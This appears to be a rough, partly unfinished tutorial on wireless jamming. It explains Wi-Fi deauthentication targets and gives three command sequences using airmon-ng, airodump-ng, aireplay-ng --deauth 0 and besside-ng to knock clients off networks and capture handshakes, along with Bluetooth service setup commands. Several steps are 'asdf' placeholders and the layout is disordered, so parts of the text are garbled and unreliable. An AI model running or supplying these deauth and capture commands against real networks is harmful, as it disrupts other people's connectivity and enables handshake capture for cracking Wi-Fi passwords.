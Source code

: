 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a particular client** of a particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly.

> But to attack on Ethernet using clients, the methods are : ARP Spoofing / ARP Poisoning (Man-in-the-Middle Attack), DHCP Starvation or Rogue DHCP Attack, Switch MAC Flooding (CAM Table Overflow). But these we won't learn here, or maybe we'll learn it later.






#### Step 1 : 
asdf asdf
`asdf`



---
---



## Bluetooth DOS attack

#### Step 1 : Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon not appearing, or it's not enabling, then follow the below commands :   
```
~$ asdf
```
```
~# asdf
```

<br>

#### Step 2 :  
asdf










------
------
------
rfkill list all

	xxx	sudo apt-get update

sudo apt reinstall blueman

sudo apt reinstall bluetooth

/etc/init.d/bluetooth status

sudo /etc/init.d/bluetooth start



sudo systemctl list-unit-files --type=service

          to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service

sudo systemctl enable bluetooth.service

sudo systemctl list-unit-files --type=service

exit

			// https://youtu.be/w1MvrcBSNjw
------
------
------

convert wlan0 to wlan0mon
-------------------------
sudo su
iwconfig
airmon-ng stop wlan0
iw wlan0 del
airmon-ng start wlan0mon
rfkill list

----------------------------
method-1
---------
sudo su
airmon-ng check kill
airmon-ng start wlan0

airodump-ng wlan0mon
ctrl+C
	
	sudo su
	cd Desktop
	airodump-ng wlan0mon --bssid "_" -c "_" -w demo

		sudo su
		aireplay-ng --deauth 0 -a "___BSS-ID___" wlan0mon
		ctrl+C, ^ ENTER....

after handshake...
---------------------------------
method-2
---------
sudo su
airmon-ng
iwconfig
clear

airmon-ng start wlan0
airmon-ng check kill (2)
airmon-ng start wlan0
clear
airmon-ng start wlan0mon
clear
iwconfig

airodump-ng wlan0mon
ctrl+C

	sudo su
	cd Desktop
	airodump-ng --bssid "_" -c "_" -w demo wlan0mon  //  (attack all networks don't metioned client/channel and bssid)

		sudo su
		besside-ng -c "_" wlan0mon  //  (attack all networks don't metioned client)

after handshake...
----------------------------------
method-3
--------

iwconfig
ifconfig wlan0
airmon-ng start wlan0
iwconfig
clear

airodump-ng wlan0mon
ctrl+C

sudo su
cd Desktop
airodump-ng -c_ -w demo -d "__BSS-ID__" wlan0mon

	sudo su
	aireplay-ng --deauth 0 -a "__BSS-ID__" -c "__STATION__" wlan0mon // (all or particular member using -c and station)
	ctrl+C

after handshake...
airmon-ng stop wlan0mon	


